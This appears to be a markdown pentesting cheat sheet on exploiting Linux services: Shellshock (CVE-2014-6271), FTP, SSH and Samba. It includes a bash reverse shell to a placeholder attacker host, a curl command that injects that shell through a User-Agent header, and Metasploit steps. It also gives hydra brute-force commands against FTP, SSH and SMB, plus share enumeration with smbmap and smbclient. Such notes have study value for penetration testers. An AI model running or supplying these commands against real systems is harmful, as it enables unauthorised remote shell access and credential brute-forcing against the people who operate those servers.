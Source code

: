 # Table of contents

- [Frequently Exploited Linux Services](#1)
  - [What is Linux?](#1,1)
  - [Exploiting Shellshock (CVE-2014-6271)](#1.2)
  - [Exploiting FTP](#1.333)
  - [Exploiting SSH](#1.4)
  - [Exploting Samba](#1.5)
- [Linux Privilege Escalation]

<a id=1></a>
# Frequently Exploited Linux Services

<a id=1.1></a>
## What is Linux?

Linux is a free and open source kernel. It is better known as part of GNU/Linux distributions such as
Arch Linux, Debian, Centos, and more. It was developed in first instance by Linus Torvalds in 1991 and
later released as an open source project impulsed by the Free Software Foundation (FSF).

As mentioned previously, Linux is typically bundled with GNU which was first developed and impulsed by
Richard Stallman, founder of the GNU Foundation (GNU is Not Unix) and the Free Software Foundation.

Linux is mainly currently being developed in C under the GPLv2 license.

Linux has a variety of use cases, but its most commonly seen in servers. The type may vary of course, but
it ranges from web servers, DNS servers, mail servers and so on and so forth.

This services are the main attack vector threat actors will look for and try to exploit. Some of these
services are:

| Service           | What it does    | Commonly seen ports |
|------------------ | --------------- | ------------------- |
| httpd/apache      | Web services.   | 80, 443, 8080       |
| nginx             | Web services    | 80, 443, 8080       |
| mysql             | DBMS            | 3306                |
| ftp/vsftpd        | FTP services    | 21, 2211            |
| ssh               | Secure Shells   | 22, 2222, 22222     |
| samba             | CIFS service    | 445                 |
| telnet (uncommon) | Telnet          | 23                  |

<a id=1.2></a>
## Exploiting Shellshock (CVE-2014-6271)

Shellshock is the name given to a family of vulnerabilities that existed in Bash since the 1.3 release.
This vulnerability allows an attacker to execute arbitrary remote commands via Bash and consequently
gaining a remote shell access.

It was discovered on 12th of September 2014 and released to the public on the 24th of September 2014.

The vulnerability allows an attacker to make Bash mistakenly execute commands after a series of characters:
()\{:;\};.

In the context of remote exploitation, Apache web servers configured to use CGI scripts or shell scripts are also
vulnerable to this attack.

Common Gateway Interface (CGI) are scripts ran by Apache to execute arbitrary commands on a Linux server, after which
the output is displayed to the user.

In order to remotely exploit this vulnerability we have to find a vulnerable form that runs a shell script or a CGI
script in an Apache web server. Or we can try to find a RCE vulnerability in a webpage and try to communicate with Bash.

```bash
$ nmap -sV [TARGET] --script http-shellshock --script-args "http-shellshock.uri=/path/to/script.cgi"
# If vulnerable, you'll most probably have to fire up Burpsuite and configure the proxy to pass arbitrary
# HTTP headers to check whether we can to RCE.
# We can create a reverse shell with the following input (put it in a header!)
$ bash -i>& /dev/tcp/[ATTACKER_IP]/[ATTACKER_PORT] 0>&1 
# We can also exploit it manually using Curl.
$ curl -A "() { :; }; /bin/bash -i >& /dev/tcp/[ATTACKER_IP]/[ATTACKER_PORT] 0>&1" [TARGET]/script.cgi &
# I tried using setsid, but it didn't work :(
msf5 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf5 > set RHOSTS [TARGET]
msf5 > set TARGETURI [TARGET_URI]
msf5 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf5 > setg RHOSTS [TARGET]
msf5 > set TARGETURI [TARGET_URI]

```

<a id=1.3></a>
## Exploiting FTP

FTP is a protocol usually found in port 21. It's used for transferring files from one machine to another.

FTP authentication uses a username and password. Because of this, one of the attack vectors most commonly used
are bruteforce attacks.

In some cases, FTP servers may allow anonymous logins, which gives unauthenticated access to the FTP server.

```bash
# Check the FTP version and type. Nowadays the most common are vsftpd, proftpd and others.
$ hydra -L /path/to/users -P /path/to/passwords [TARGET] ftp
# You could use the ftp_login module in the MSF, but it's usually slower.
```

<a id=1.4></a>
## Exploiting SSH

Secure Shell (SSH) is a common protocol used for remote CLI administration of a system. It usually runs on ports
22 and sometimes in 222 or 2222. 

Given the fact that SSH uses (mainly) username and password to authenticate, bruteforce attacks are usually the
way to go. Let's not forget that a second authentication method exists: through PKI (Public Key Infrastructure).
We'd need a private key to log in a machine with no credentials needed.

```bash
$ hydra -L /path/to/users -P /path/to/passwords [TARGET] ssh {-t [TASKS]}
# Again, you could use the MSF modules ssh_login, but it is slower than Hydra.
```

<a id=1.5></a>
## Exploiting Samba

Samba is the open source implementation of the proprietary SMB protocol, aka CIFS.

It usually runs on port 445, but it can also be found in 137 to 139.

To exploit this service we can use the following tools: 

- nmap NSE scripts
- smbclient
- smbmap
- hydra
- crackmapexec
- smb modules for MSF

```bash
# First lets get some credentials.
$ hydra -L /path/to/users -P /path/to/passwords [TARGET] smb
# Change -L for -l if you already have a username at hand.
$ smbmap -H [TARGET] -u [USERNAME] -p [PASSWORD] {-x [COMMAND]} {-d [DOMAIN_NAME]} {-s [SHARE]}
$ smbclient -L "[USERNAME]" {-N [NO_PASSWORD!]} //[TARGET]/[TARGET_SHARE]
$ enum4linux -a [TARGET] -u "[USERNAME]" -p "[PASSWORD]" {-S {SHARES}} {-G {GROUP AND MEMBERS}}
```
